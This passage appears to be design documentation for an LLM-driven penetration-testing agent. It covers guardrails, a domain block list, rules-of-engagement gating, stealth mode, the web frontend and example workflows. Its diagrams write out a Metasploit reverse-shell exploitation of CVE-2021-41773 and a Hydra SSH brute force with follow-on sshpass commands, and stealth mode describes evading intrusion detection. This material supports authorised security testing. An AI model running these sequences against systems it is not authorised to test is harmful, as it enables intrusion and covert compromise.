| `interpretation` | str | Plain-language summary of what the output means |
| `extracted_info` | `ExtractedTargetInfo` | Structured fields the LLM pulled out: `ports`, `services`, `technologies`, `vulnerabilities`, `credentials`, `sessions`, `session_details` |
| `actionable_findings` | List[str] | Items that can drive the next step (e.g. "SSH on port 22, try Hydra") |
| `recommended_next_steps` | List[str] | The LLM's suggested follow-ups; informs `todo_list` updates |
| `exploit_succeeded` | bool | LLM-detected exploit success (drives EvoGraph `ChainFinding(finding_type="exploit_success")`) |
| `exploit_details` | dict | Optional metadata when `exploit_succeeded=true` (module, payload, session_id, target) |
| `chain_findings` | List[ChainFindingExtract] | Structured findings ready for `fire_record_finding` to write into Neo4j |

### How It's Wired Through the Loop

```mermaid
sequenceDiagram
    participant T as think (iter N)
    participant E as execute_tool
    participant T2 as think (iter N+1)
    participant State
    participant CG as chain_graph_writer
    participant N4J as Neo4j

    T->>State: _current_step = ExecutionStep with tool name + args
    T->>E: routes to executor
    E->>State: _current_step.tool_output, _current_step.success
    E->>T2: routes back to think
    T2->>T2: build prompt with previous step's raw output
    T2->>T2: LLM emits LLMDecision { ..., output_analysis: OutputAnalysisInline }
    T2->>State: merge extracted_info into target_info, (extend lists, fill scalars, dedupe)
    T2->>State: append actionable_findings to chain_findings_memory, append failures to chain_failures_memory
    T2->>State: _completed_step = previous step + output_analysis attached
    T2->>CG: fire_record_finding for each chain_findings entry
    CG->>N4J: CREATE ChainFinding + bridge edges
    T2->>T2: emit_streaming_events fires on_tool_complete (now armed by _completed_step)
```

The same loop applies to fireteam members, the member's `fireteam_think` writes `output_analysis` into its own `FireteamMemberState` and stamps each ChainFinding with `agent_id` / `fireteam_id`.

### Why Inline Instead of a Separate Analysis Node?

A separate "analyze output" node would require:

- An extra LLM call per tool execution (doubles latency).
- A second prompt build (the analyzer would need much of the same context).
- A fragile contract: analyzer-written fields would have to round-trip through LangGraph state and survive the schema filter.

Bundling analysis into the next think is essentially free, the LLM already needs to see the previous output to decide what's next, so asking it to also emit structured findings adds tokens but no new round-trip.

### Consequence: The Last Tool Needs One More Think

Because analysis lives in iteration N+1's think, the last tool of any session needs a final think pass to close it out. That terminal think is the same one that emits `action=complete`, it analyzes the previous tool, sets `_completed_step` (so `fireteam_tool_complete` / `tool_complete` fires), then routes to `generate_response` / `fireteam_complete`.

---

## Guardrails (Hard, Soft, Scope)

The agent enforces three layered guardrails on every target it might touch. Each layer has a distinct purpose, a distinct enforcement point, and a distinct override behaviour.

| Layer | File | Mechanism | Toggleable? | When evaluated |
|---|---|---|---|---|
| **Hard** | [agentic/hard_guardrail.py](../agentic/hard_guardrail.py) | Pure regex/string match against TLD patterns + ~200-domain exact set | **No**, non-disableable | At `initialize_node`; also re-checked in `think_node` when injecting the scope reminder |
| **Soft** | [agentic/guardrail.py](../agentic/guardrail.py) | LLM-based "is this safe to scan" classifier with retry | Yes, `AGENT_GUARDRAIL_ENABLED` | At `initialize_node` after hard guardrail passes |
| **Scope reminder** | [agentic/orchestrator_helpers/nodes/think_node.py](../agentic/orchestrator_helpers/nodes/think_node.py) (lines ~289-305) | Prompt-level injection: "you must only operate against the project's configured target" | Implicit (depends on hard-block status + `AGENT_GUARDRAIL_ENABLED`) | Every think iteration |

### Hard Guardrail, The Floor

Blocks government, military, education, and intergovernmental targets regardless of project settings. Entirely deterministic so it can be relied on as the safety floor.

**TLD patterns** (case-insensitive):

- `.gov`, `.gov.<cc>`, `.gob.<cc>` (Spanish), `.gouv.<cc>` (French), `.govt.<cc>`, `.go.<cc>`, `.gv.<cc>`, `.government.<cc>`
- `.mil`, `.mil.<cc>`
- `.edu`, `.edu.<cc>`, `.ac.<cc>`
- `.int` (NATO, WHO, EU agencies)

**Exact-match domains**, ~200 entries covering UN system bodies, EU institutions, NATO, OSCE, ASEAN, African Union, World Bank, IMF, ICRC, etc. Required because these orgs use generic `.org` / `.eu` TLDs that would slip past the suffix rules.

```python
blocked, reason = is_hard_blocked(domain)
# returns (True, "matches gov TLD pattern .gov") or (False, "")
```

The list is mirrored byte-for-byte in `webapp/src/lib/hard-guardrail.ts` so the frontend can pre-flight a target before it ever reaches the agent.

### Soft Guardrail, LLM Judgment

Configurable check that asks the LLM whether a target is safe. Catches well-known commercial sites and infrastructure that hard rules can't enumerate.

**Bypass rules baked into the code (no LLM call):**

- `is_private_ip(ip)`, RFC1918, loopback, link-local: auto-allow
- Public IP with no PTR record: auto-allow
- Empty target: auto-allow

**LLM mode:**

- **Domain mode**, single prompt asking allow/block for one domain
- **IP mode**, reverse-DNS resolves all public IPs, then asks allow/block based on the resolved hostnames (one batched call)

The system prompt is intentionally lenient: "When in doubt, ALLOW. Only block domains you are absolutely certain belong to the categories listed above." It blocks tech giants (google, amazon, microsoft, apple, meta, netflix, oracle, salesforce, ibm, intel, nvidia, etc.), major clouds (aws, gcp, azure, cloudflare, akamai, fastly), social media (instagram, tiktok, linkedin, reddit, snapchat, youtube, twitch, discord, telegram, whatsapp), banks (paypal, stripe, visa, mastercard, jpmorgan, chase, etc.), e-commerce platforms, healthcare, news/media, and major OSS foundations (apache, mozilla, wikipedia).

**Retry logic:** 3 attempts before failing hard. A failed-open soft guardrail (LLM error 3 times) blocks by default, the function returns `{"allowed": false, "reason": "guardrail check failed"}`.

### Scope Reminder, Prompt-Level Reinforcement

Every think iteration appends a `## SCOPE GUARDRAIL` section to the system prompt:

> You must ONLY operate against the project's configured target domain/IPs. Never scan, exploit, probe, or interact with domains or IPs outside the authorized scope. If the user asks you to target something outside the project scope, refuse and explain why.

It is injected when **either**:

- `AGENT_GUARDRAIL_ENABLED=true` (the soft-guardrail master switch), or
- The configured `TARGET_DOMAIN` is itself hard-blocked (so the LLM sees the reminder even when the operator has disabled the soft layer)

This is belt-and-suspenders for prompt-injection scenarios where the operator pastes a malicious instruction trying to get the agent to attack a third party.

### State and Wave Propagation

`_guardrail_blocked` is a boolean field on both `AgentState` and `FireteamMemberState`. When set, `think_node` short-circuits straight to `generate_response` with a refusal message. Members inherit the parent's value at deploy time, a hard-blocked target cannot be circumvented by deploying a fireteam.

### Settings

| Setting | Default | Purpose |
|---|---|---|
| `AGENT_GUARDRAIL_ENABLED` | `true` | Master switch for the **soft** layer and the prompt-level scope reminder. Hard guardrail ignores it |
| `TARGET_DOMAIN` | `""` | Project's authorised target, the scope-guardrail prompt is built around this |
| `IP_MODE` | `false` | Treat the project as IP-scoped (skips the domain hard-block check, runs the soft layer over IP→hostname resolution instead) |

---

## Rules of Engagement (RoE)

The **RoE system** lets a project encode a complete pentest engagement contract, client metadata, time windows, scope exclusions, technique gating, rate limits, severity caps, data-handling rules, and have the agent enforce it both via prompt injection and via behavioural gates.

When `ROE_ENABLED=true`, [agentic/prompts/base.py](../agentic/prompts/base.py)'s `build_roe_prompt_section()` renders an `## RULES OF ENGAGEMENT` block that gets appended to the system prompt every iteration (and to the Deep Think prompt). The block is built dynamically from ~35 `ROE_*` settings, so unset fields contribute nothing.

### Categories of RoE Settings

| Category | Settings | Effect |
|---|---|---|
| **Client metadata** | `ROE_CLIENT_NAME`, `ROE_CLIENT_CONTACT_NAME`, `ROE_CLIENT_CONTACT_EMAIL`, `ROE_CLIENT_CONTACT_PHONE`, `ROE_EMERGENCY_CONTACT` | Identity attribution; reported in narratives |
| **Engagement window** | `ROE_ENGAGEMENT_START_DATE`, `ROE_ENGAGEMENT_END_DATE`, `ROE_ENGAGEMENT_TYPE` (`external` / `internal` / `red_team` / `assumed_breach`) | Date-bounded execution. `initialize_node` precomputes `_roe_warnings` (e.g. "engagement ended 3 days ago"); think_node injects them into the prompt |
| **Time windows** | `ROE_TIME_WINDOW_ENABLED`, `ROE_TIME_WINDOW_TIMEZONE`, `ROE_TIME_WINDOW_DAYS`, `ROE_TIME_WINDOW_START_TIME`, `ROE_TIME_WINDOW_END_TIME` | Allowed scan hours per day-of-week |
| **Scope exclusions** | `ROE_EXCLUDED_HOSTS` (list), `ROE_EXCLUDED_HOST_REASONS` (parallel list) | Hosts the agent must not touch and a documented reason for each |
| **Technique gating (boolean)** | `ROE_ALLOW_DOS`, `ROE_ALLOW_SOCIAL_ENGINEERING`, `ROE_ALLOW_PHYSICAL_ACCESS`, `ROE_ALLOW_DATA_EXFILTRATION`, `ROE_ALLOW_ACCOUNT_LOCKOUT`, `ROE_ALLOW_PRODUCTION_TESTING` | Strips the matching attack-skill from the action vocabulary when `false` |
| **Tool/category restriction** | `ROE_FORBIDDEN_TOOLS` (list), `ROE_FORBIDDEN_CATEGORIES` (list) | Hard removes from `get_phase_tools()` |
| **Rate limiting** | `ROE_GLOBAL_MAX_RPS` | Documented in prompt; tools enforce per-call where applicable |
| **Severity cap** | `ROE_MAX_SEVERITY_PHASE` (`informational` / `exploitation` / `post_exploitation`) | Caps the highest phase the agent may transition into |
| **Sensitive data handling** | `ROE_SENSITIVE_DATA_HANDLING` (`no_access` / `read_only` / `redact` / `encrypt`), `ROE_DATA_RETENTION_DAYS`, `ROE_REQUIRE_DATA_ENCRYPTION` | Constrains what the agent records and how |
| **Reporting** | `ROE_STATUS_UPDATE_FREQUENCY`, `ROE_CRITICAL_FINDING_NOTIFY`, `ROE_INCIDENT_PROCEDURE` | Drives the report-summarizer narratives |
| **Compliance** | `ROE_COMPLIANCE_FRAMEWORKS` (list, PCI-DSS, HIPAA, SOC2, ISO27001, etc.), `ROE_THIRD_PARTY_PROVIDERS` (list) | Surfaces in the report and prompt |
| **Free text** | `ROE_RAW_TEXT`, `ROE_NOTES` | Prepended/appended verbatim to the prompt block; lets operators encode constraints the schema doesn't model |

### Enforcement Points

```mermaid
flowchart TB
    subgraph Init["initialize_node"]
        A[Check ROE_ENGAGEMENT_*_DATE vs now]
        B[Compute _roe_warnings list]
    end

    subgraph Think["think_node"]
        C[If ROE_ENABLED: append build_roe_prompt_section]
        D[If _roe_warnings: append RoE TIMING WARNINGS block]
        E[Strip forbidden actions from tool vocabulary]
    end

    subgraph DeepThinkBlock["deep_think pre-step"]
        F[Same RoE section appended to DEEP_THINK_PROMPT]
    end

    subgraph Tools["get_phase_tools"]
        G[Filter ROE_FORBIDDEN_TOOLS]
        H[Filter ROE_FORBIDDEN_CATEGORIES]
        I[Filter by attack-skill gates ROE_ALLOW_*]
    end

    subgraph Phase["Phase transition"]
        J[Cap at ROE_MAX_SEVERITY_PHASE]
    end

    Init --> Think
    Think --> Tools
    Think --> Phase
    Think --> DeepThinkBlock
```

### State

| Field | Owner | Purpose |
|---|---|---|
| `_roe_warnings` | `initialize_node` | Pre-computed timing warnings (engagement ended, outside time window) injected into prompt by `think_node` |

### Why Both Prompt-Level and Code-Level?

- **Prompt-level (RoE block):** Lets the LLM reason about the contract. It sees client name, contact, exclusions, deadlines, context it can use when planning, when refusing, when escalating to the operator.
- **Code-level (gates):** A misbehaving LLM cannot bypass `get_phase_tools()` filtering or the phase-transition severity cap. Hard rules catch what soft rules miss.

The two layers are deliberately redundant. If the LLM reads the RoE block correctly it will already avoid forbidden actions, and the code gates never fire. If the prompt is jailbroken or the LLM hallucinates, the code gates still hold.

---

## Stealth Mode

When `STEALTH_MODE=true`, [agentic/prompts/stealth_rules.py](../agentic/prompts/stealth_rules.py) prepends a `STEALTH_MODE_RULES` block to the system prompt with the **highest priority** (it goes before everything else, including the base ReAct prompt).

The block instructs the agent to:

- Prefer slow, low-noise scan modes (`-T1` / `-T2` for nmap, throttled rates for naabu, single-threaded fuzzing)
- Avoid loud detection signals (no aggressive NSE scripts, no banner grabbing on every port)
- Spread requests over time
- Skip techniques that trip standard IDS signatures (rapid sequential scans, default user-agents, default tool fingerprints)

Stealth mode is purely prompt-level, there is no separate executor that throttles tools. The LLM is responsible for choosing stealth-appropriate arguments. This is intentional: stealth requires *context-sensitive* judgment (e.g. "use `--max-rate 50` here but `--max-rate 200` against this hardened target") that hard limits would over-constrain.

| Setting | Default | Purpose |
|---|---|---|
| `STEALTH_MODE` | `false` | Master switch for the stealth rules injection |

---

## Frontend Integration

This chapter explains *how the Next.js webapp consumes the agent's WebSocket stream and turns it into the operator-facing chat experience*. The frontend is structured around three coordinated pieces: a WebSocket hook (`useAgentWebSocket`) that owns the connection lifecycle (connect, reconnect, init handshake, heartbeat, message dispatch), a state container in the AI Assistant Drawer that maintains the chat-item list and current agent status, and a family of React components that render different timeline-item types (thinking bubbles, tool execution cards, plan-wave cards, fireteam panels, approval dialogs, Deep Think cards, file-ready cards).

The most important design decision in the frontend is that **the chat input adapts based on agent state**. When the agent is idle the input sends a query; when the agent is working the same input sends a guidance message and a stop button appears alongside; when the agent is awaiting an approval the input is disabled and a dialog renders the choices; when the agent is awaiting a question the input takes the answer; when the agent is awaiting tool confirmation the answer is rendered inline on the relevant tool card with Allow/Deny buttons. The operator never has to think about which mode they are in, the input adapts automatically to whatever the agent is currently waiting for, and a placeholder text always indicates what the input will do if the operator types something.

The second important design decision is that **the timeline is restored from the database, not from the WebSocket**. When the browser reconnects (after a refresh, a network blip, or a different operator opening the session), the frontend first fetches the persisted `ChatMessage` rows for the session and reconstructs the timeline exactly as it appeared, then resumes the live WebSocket stream from that point. This is what makes long sessions safely closeable, the operator can shut their laptop and pick up where they left off the next morning.

### useAgentWebSocket Hook

```mermaid
stateDiagram-v2
    [*] --> DISCONNECTED

    DISCONNECTED --> CONNECTING: connect()

    CONNECTING --> CONNECTED: WebSocket open + init success
    CONNECTING --> FAILED: Connection error

    CONNECTED --> RECONNECTING: WebSocket close/error
    CONNECTED --> DISCONNECTED: disconnect()

    RECONNECTING --> CONNECTING: Retry attempt
    RECONNECTING --> FAILED: Max retries exceeded

    FAILED --> CONNECTING: reconnect()
```

### UI State Management

```mermaid
flowchart TB
    subgraph State["AIAssistantDrawer State"]
        ITEMS[chatItems: Array]
        PHASE[currentPhase: string]
        LOADING[isLoading: boolean]
        STOPPED[isStopped: boolean]
        AWAIT_A[awaitingApproval: boolean]
        AWAIT_Q[awaitingQuestion: boolean]
        AWAIT_TC[awaitingToolConfirmation: boolean]
        TODO[todoList: Array]
    end

    subgraph Events["WebSocket Events"]
        E_THINK[thinking]
        E_TOOL[tool_start/complete]
        E_PHASE[phase_update]
        E_TODO[todo_update]
        E_APPR[approval_request]
        E_QUES[question_request]
        E_TCONF[tool_confirmation_request]
        E_RESP[response]
        E_GACK[guidance_ack]
        E_STOP[stopped]
    end

    subgraph UI["UI Components"]
        TIMELINE[AgentTimeline]
        DIALOG_A[ApprovalDialog]
        DIALOG_Q[QuestionDialog]
        TODO_W[TodoListWidget]
        CHAT[ChatMessages]
        STOP_BTN[Stop/Resume Button]
        GUIDANCE_INPUT[Guidance Input<br/>enabled during loading]
        TOOL_CONF_CARD[ToolExecutionCard / PlanWaveCard<br/>Allow/Deny buttons]
    end

    E_THINK --> |Add ThinkingItem| ITEMS
    E_TOOL --> |Add ToolExecutionItem| ITEMS
    E_TCONF --> |Add pending_approval card| ITEMS
    E_RESP --> |Add MessageItem| ITEMS
    E_PHASE --> PHASE
    E_TODO --> TODO
    E_APPR --> AWAIT_A
    E_QUES --> AWAIT_Q
    E_TCONF --> AWAIT_TC
    E_STOP --> STOPPED

    ITEMS --> TIMELINE
    ITEMS --> CHAT
    AWAIT_A --> DIALOG_A
    AWAIT_Q --> DIALOG_Q
    AWAIT_TC --> TOOL_CONF_CARD
    TODO --> TODO_W
    PHASE --> |Phase badge styling| TIMELINE
    LOADING --> STOP_BTN
    STOPPED --> STOP_BTN
    LOADING --> GUIDANCE_INPUT
```

### Input Mode Behavior

The chat input adapts based on agent state:

| State | Input Enabled | Send Action | Placeholder | Extra Button |
|-------|--------------|-------------|-------------|--------------|
| **Idle** | Yes | `sendQuery()` | "Ask a question..." | None |
| **Loading** (agent working) | Yes | `sendGuidance()` | "Send guidance to the agent..." | Stop (red square) |
| **Stopped** | No |, | "Agent stopped. Click resume..." | Resume (green play) |
| **Awaiting approval** | No |, | "Respond to the approval request..." | None |
| **Awaiting question** | No |, | "Answer the question above..." | None |
| **Awaiting tool confirmation** | No |, | *(inline Allow/Deny on tool card)* | None |
| **Disconnected** | No |, | "Connecting to agent..." | None |

Guidance messages appear in the chat with a purple "Guidance" badge and dashed border styling to distinguish them from regular user messages.

---

## Detailed Workflows

This chapter walks through *what actually happens, end to end, in the most common scenarios the operator will encounter*. The previous chapters described each subsystem in isolation, the state machine, the tools, the guardrails, the streaming protocol. This one stitches them together by following specific sessions from initial query to final response, with sequence diagrams that show every actor (operator, orchestrator, MCP server, target system) and every message between them.

Five workflows are covered. The **complete agent execution flow** is the master diagram showing how a generic objective travels through `initialize → think → execute → analyse → repeat → generate_response`, including the branches for phase transitions and questions. The **phase transition approval flow** shows what happens when the agent wants to escalate from informational to exploitation: the await_approval pause, the operator's three options (approve / modify / abort), and how each branch updates state. The two **exploitation workflows**, CVE (MSF) path and credential testing path, trace the actual command sequences the agent uses against a real target, including the per-message-per-call Metasploit interaction pattern and the Hydra brute-force-then-pivot pattern. The **Q&A interaction flow** shows how the agent pauses to ask the operator for missing information (LHOST/LPORT, wordlist preference, etc.) and resumes once the answer arrives. The **multi-objective session flow** demonstrates how a single conversation can contain multiple sequential objectives that share state (target_info, qa_history) but trigger fresh phase classifications.

Read these diagrams as canonical reference for "what the agent does in scenario X." When debugging a real session, comparing the live timeline against the matching workflow diagram quickly reveals which step fired in an unexpected order or which branch was unexpectedly taken.

### Complete Agent Execution Flow

```mermaid
flowchart TB
    START([User sends question]) --> INIT[Initialize Node]

    INIT --> CHECK_RESUME{Resuming after<br/>approval/answer?}
    CHECK_RESUME -->|Yes, approval| PROC_A[Process Approval]
    CHECK_RESUME -->|Yes, answer| PROC_Q[Process Answer]
    CHECK_RESUME -->|No| NEW_OBJ{New objective?}

    NEW_OBJ -->|Yes| CLASSIFY[LLM classifies attack path<br/>+ required phase]
    NEW_OBJ -->|No| THINK[Think Node]
    CLASSIFY --> THINK

    PROC_A --> THINK
    PROC_Q --> THINK

    THINK --> PRE_VALID{Pre-exploitation<br/>validation}
    PRE_VALID -->|Missing LHOST/LPORT| FORCE_ASK[Force ask_user]
    PRE_VALID -->|OK| DECISION{Action?}
    FORCE_ASK --> AWAIT_Q

    DECISION -->|use_tool| EXEC[Execute Tool]
    DECISION -->|plan_tools| EXEC_PLAN[Execute Plan Wave]
    DECISION -->|deploy_fireteam| FT_DEPLOY[Fireteam Deploy<br/>fan-out N specialists]
    DECISION -->|transition_phase| PHASE_CHECK{Needs approval?}
    DECISION -->|ask_user| AWAIT_Q[Await Question]
    DECISION -->|complete| GEN[Generate Response]

    EXEC --> THINK_AGAIN[Think Node<br/>analyzes output inline + decides next]
    EXEC_PLAN --> THINK_AGAIN
    FT_DEPLOY --> FT_COLLECT[Fireteam Collect<br/>merge findings + auto-complete TODOs]
    FT_COLLECT --> THINK_AGAIN
    THINK_AGAIN --> ITER_CHECK{Max iterations?}
    ITER_CHECK -->|No| PRE_VALID
    ITER_CHECK -->|Yes| GEN

    PHASE_CHECK -->|Yes| AWAIT_A[Await Approval]
    PHASE_CHECK -->|No, auto-approve| UPDATE_PHASE[Update Phase]
    UPDATE_PHASE --> THINK

    AWAIT_A --> PAUSE_A([Pause - Wait for user])
    PAUSE_A --> |User responds| PROC_A

    AWAIT_Q --> PAUSE_Q([Pause - Wait for user])
    PAUSE_Q --> |User answers| PROC_Q

    GEN --> END([Return response])

    style START fill:#757575,color:#fff
    style END fill:#757575,color:#fff
    style PAUSE_A fill:#5a5a5a,color:#fff
    style PAUSE_Q fill:#5a5a5a,color:#fff
    style CLASSIFY fill:#5a5a5a,color:#fff
    style THINK fill:#5a5a5a,color:#fff
    style THINK_AGAIN fill:#5a5a5a,color:#fff
    style GEN fill:#5a5a5a,color:#fff
    style CHECK_RESUME fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style DECISION fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style ITER_CHECK fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style NEW_OBJ fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style PHASE_CHECK fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style PRE_VALID fill:#5a5a5a,color:#fff,stroke:#2d2d2d
```

### Phase Transition Approval Flow

```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: transition_phase to "exploitation"
    O->>O: Check REQUIRE_APPROVAL_FOR_EXPLOITATION

    alt Approval Required
        O->>O: Store phase_transition_pending
        O->>O: Set awaiting_user_approval = true
        O->>WS: Send approval_request message
        WS->>U: Display approval dialog

        Note over O,U: Graph pauses at await_approval node (END)

        U->>WS: User decision (approve/modify/abort)
        WS->>O: Resume with user_approval_response

        alt User Approved
            O->>O: Update current_phase = "exploitation"
            O->>O: Add to phase_history
            O->>O: Clear approval state
            O->>A: Continue in new phase
        else User Modified
            O->>O: Add modification to messages
            O->>O: Clear approval state
            O->>A: Continue with modification context
        else User Aborted
            O->>O: Set task_complete = true
            O->>O: Generate final response
        end
    else Auto-Approve (downgrade to informational)
        O->>O: Update current_phase immediately
        O->>A: Continue in new phase
    end
```

### Exploitation Workflow: CVE (MSF) Path

```mermaid
sequenceDiagram
    participant U as User
    participant A as Agent
    participant MSF as Metasploit Server
    participant T as Target

    U->>A: "Exploit CVE-2021-41773 on 192.168.1.100"

    Note over A: Initialize: LLM classifies → cve_exploit
    Note over A: Phase: Informational
    A->>A: Query graph for target info
    A->>A: Request phase transition to exploitation

    U->>A: Approve transition

    Note over A: Phase: Exploitation (cve_exploit path)
    Note over A: Pre-exploitation: validate LHOST/LPORT

    A->>MSF: search CVE-2021-41773
    MSF-->>A: exploit/multi/http/apache_normalize_path_rce

    A->>MSF: use exploit/multi/http/apache_normalize_path_rce
    MSF-->>A: Module loaded

    A->>MSF: info
    MSF-->>A: Module options and description

    A->>MSF: show targets
    MSF-->>A: 0: Unix Command, 1: Linux Dropper

    A->>MSF: set TARGET 0
    MSF-->>A: TARGET => 0

    A->>MSF: show payloads
    MSF-->>A: Compatible payloads list

    A->>MSF: set PAYLOAD cmd/unix/reverse_bash
    MSF-->>A: PAYLOAD => cmd/unix/reverse_bash

    A->>MSF: set RHOSTS 192.168.1.100
    MSF-->>A: RHOSTS => 192.168.1.100

    A->>MSF: set LHOST 192.168.1.50
    MSF-->>A: LHOST => 192.168.1.50

    A->>MSF: exploit
    MSF->>T: Send exploit payload
    T-->>MSF: Reverse shell connects
    MSF-->>A: "Sending stage..." (streamed via progress chunks)

    Note over A: Session detected via inline output analysis
    A->>MSF: msf_wait_for_session(timeout=120)
    MSF-->>A: Session 1 opened

    A->>A: Request phase transition to post_exploitation
    U->>A: Approve transition

    Note over A: Phase: Post-Exploitation (Meterpreter)
    A->>MSF: msf_session_run(1, "whoami")
    MSF->>T: Execute command in session
    T-->>MSF: "www-data"
    MSF-->>A: Command output
```

### Exploitation Workflow: Credential Testing Path

```mermaid
sequenceDiagram
    participant U as User
    participant A as Agent
    participant H as Hydra (execute_hydra)
    participant K as Kali Shell
    participant T as Target

    U->>A: "Try SSH brute force on 192.168.1.100"

    Note over A: Initialize: LLM classifies → brute_force_credential_guess
    Note over A: Phase: Informational
    A->>A: Query graph for target info (ports, services)
    A->>A: Request phase transition to exploitation

    U->>A: Approve transition

    Note over A: Phase: Exploitation (brute_force path)
    Note over A: No LHOST/LPORT needed (Hydra is stateless)

    A->>H: -l ubuntu -P unix_passwords.txt -t 4 -f -e nsr -V ssh://192.168.1.100
    H->>T: Try credentials (parallel, 4 threads)
    T-->>H: [22][ssh] host: 192.168.1.100 login: admin password: password123
    H-->>A: 1 valid password found

    Note over A: Credentials detected via inline output analysis

    A->>K: sshpass -p 'password123' ssh admin@192.168.1.100 'whoami && id'
    K->>T: SSH login with discovered credentials
    T-->>K: "admin" + uid info
    K-->>A: SSH access confirmed

    A->>A: Request phase transition to post_exploitation
    U->>A: Approve transition

    Note over A: Phase: Post-Exploitation (Shell via sshpass)
    A->>K: sshpass -p 'password123' ssh admin@192.168.1.100 'uname -a'
    K->>T: Execute command via SSH
    T-->>K: "Linux target 5.15.0..."
    MSF-->>A: Command output
```

### Q&A Interaction Flow

```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: ask_user with question
    O->>O: Store pending_question
    O->>O: Set awaiting_user_question = true
    O->>WS: Send question_request message

    WS->>U: Display question dialog
    Note over U: Dialog shows question, context, format, (text/single_choice/multi_choice)

    Note over O,U: Graph pauses at await_question node (END)

    U->>WS: User provides answer
    WS->>O: Resume with user_question_answer

    O->>O: Create QAHistoryEntry
    O->>O: Add to qa_history
    O->>O: Clear question state
    O->>O: Add answer to messages context

    O->>A: Continue with answer in context

    Note over A: Agent can reference qa_history, in future decisions
```

### Multi-Objective Session Flow

```mermaid
flowchart TB
    subgraph Objective1["Objective #1: Port scan"]
        O1_START["User: Scan ports on 192.168.1.1"]
        O1_WORK[Agent executes naabu scan]
        O1_DONE[Objective completed]
    end

    subgraph Objective2["Objective #2: Vulnerability scan"]
        O2_START["User: Check for CVEs"]
        O2_DETECT[Detect new message after completion]
        O2_CREATE[Create new ConversationObjective]
        O2_WORK[Agent queries graph + analyzes]
        O2_DONE[Objective completed]
    end

    subgraph Objective3["Objective #3: Exploit"]
        O3_START["User: Exploit CVE-2021-41773"]
        O3_PHASE[Phase transition to exploitation]
        O3_WORK[Agent runs Metasploit]
        O3_DONE[Objective completed]
    end

    subgraph State["Persistent State"]
        TRACE[execution_trace: All steps preserved]
        TARGET[target_info: Accumulates across objectives]
        HISTORY[objective_history: Completed objectives]
        QA[qa_history: All Q&A preserved]
    end

    O1_START --> O1_WORK --> O1_DONE
    O1_DONE --> O2_START
    O2_START --> O2_DETECT --> O2_CREATE --> O2_WORK --> O2_DONE
    O2_DONE --> O3_START
    O3_START --> O3_PHASE --> O3_WORK --> O3_DONE

    O1_DONE -.-> |Archive| HISTORY
    O2_DONE -.-> |Archive| HISTORY
    O3_DONE -.-> |Archive| HISTORY

    O1_WORK -.-> TRACE
    O2_WORK -.-> TRACE
    O3_WORK -.-> TRACE

    O1_WORK -.-> TARGET
    O2_WORK -.-> TARGET
    O3_WORK -.-> TARGET

    style Objective1 fill:#757575,color:#fff
    style Objective2 fill:#5a5a5a,color:#fff
    style Objective3 fill:#5a5a5a,color:#fff
```

---

## Multi-Objective Support

The system handles continuous conversations where users ask multiple sequential questions:

```mermaid
flowchart LR
    subgraph Detection["New Objective Detection"]
        MSG[New user message arrives]
        CHECK{task_complete<br/>from previous?}
        DIFF{Message differs<br/>from current objective?}
        CREATE[Create new ConversationObjective]
    end

    subgraph Archive["Objective Archival"]
        COMPLETE[Current objective completed]
        OUTCOME[Create ObjectiveOutcome]
        STORE[Add to objective_history]
        PRESERVE[Preserve execution_trace,<br/>target_info, qa_history]
    end

    subgraph Phase["Phase Management"]
        INFER[LLM classifies attack path<br/>+ required_phase]
        DOWN{Downgrade to<br/>informational?}
        AUTO[Auto-transition<br/>no approval needed]
        UP{Upgrade to<br/>exploitation?}
        APPROVAL[Require user approval]
    end

    MSG --> CHECK
    CHECK -->|Yes| CREATE
    CHECK -->|No| DIFF
    DIFF -->|Yes| CREATE

    COMPLETE --> OUTCOME --> STORE --> PRESERVE

    CREATE --> INFER
    INFER --> DOWN
    DOWN -->|Yes| AUTO
    DOWN -->|No| UP
    UP -->|Yes| APPROVAL
    style CHECK fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style DIFF fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style DOWN fill:#5a5a5a,color:#fff,stroke:#2d2d2d
    style UP fill:#5a5a5a,color:#fff,stroke:#2d2d2d
```

### Objective State Fields

| Field | Purpose |
|-------|---------|
| `conversation_objectives` | List of all objectives (current + future) |
| `current_objective_index` | Which objective is being worked on |
| `objective_history` | Completed objectives with their outcomes |
| `original_objective` | Backward compatibility with single-objective sessions |

---

## EvoGraph, Evolutive Attack Chain Graph

**EvoGraph** is a persistent, evolutionary graph in Neo4j that runs **parallel to the recon graph**. While the recon graph captures *what exists* on the target's attack surface (domains, IPs, ports, services, vulnerabilities), EvoGraph captures *what the agent did about it*, every tool execution, every discovery, every failure, every strategic decision, across the entire attack lifecycle.

It transforms the agent from a **stateless tool executor** into a **knowledge-accumulating system** that learns from every session and builds on prior work.

### Why EvoGraph Exists

The previous approach used a flat `execution_trace`, a linear list of `ExecutionStep` objects that was:

| Problem | Impact |
|---------|--------|
| **Linear** | No branching, no causal links between steps, no semantic grouping |
| **Ephemeral** | Lost when the session ended, only persisted in LangGraph checkpoint |
| **Disconnected** | No structured links to the recon graph (Domain, IP, CVE, etc.) |
| **Context-blind** | Every step looked the same regardless of significance, the LLM had to scan a wall of text to find what mattered |
| **No failure learning** | Failed attempts were buried chronologically, indistinguishable from successes |

EvoGraph solves all of these by replacing the flat trace with a structured, queryable, persistent graph.

### Node Taxonomy

EvoGraph introduces **5 node types**, each serving a distinct purpose in the attack lifecycle:

```mermaid
classDiagram
    class AttackChain {
        +string chain_id
        +string title
        +string objective
        +string status
        +string attack_path_type
        +int total_steps
        +int successful_steps
        +int failed_steps
        +list phases_reached
        +string final_outcome
    }

    class ChainStep {
        +string step_id
        +int iteration
        +string phase
        +string tool_name
        +string tool_args_summary
        +string thought
        +string reasoning
        +string output_summary
        +bool success
        +string error_message
        +int duration_ms
    }

    class ChainFinding {
        +string finding_id
        +string finding_type
        +string severity
        +string title
        +string evidence
        +int confidence
        +string phase
    }

    class ChainDecision {
        +string decision_id
        +string decision_type
        +string from_state
        +string to_state
        +string reason
        +string made_by
        +bool approved
    }

    class ChainFailure {
        +string failure_id
        +string failure_type
        +string tool_name
